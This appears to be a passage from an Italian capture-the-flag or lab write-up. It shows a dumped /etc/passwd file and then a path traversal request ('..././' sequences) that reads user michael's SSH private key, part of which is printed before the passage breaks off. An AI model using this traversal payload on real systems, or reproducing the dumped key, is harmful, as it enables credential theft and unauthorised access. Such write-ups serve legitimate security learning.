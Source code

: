 ```
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```

Interessante l'utente *michael*, quindi cerchiamo di leggere la chiave ssh:
`GET /index.php?page=..././..././..././..././..././..././home/michael/.ssh/id_rsa`

```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sat, 09 Jul 2022 12:51:32 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 1823


-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
```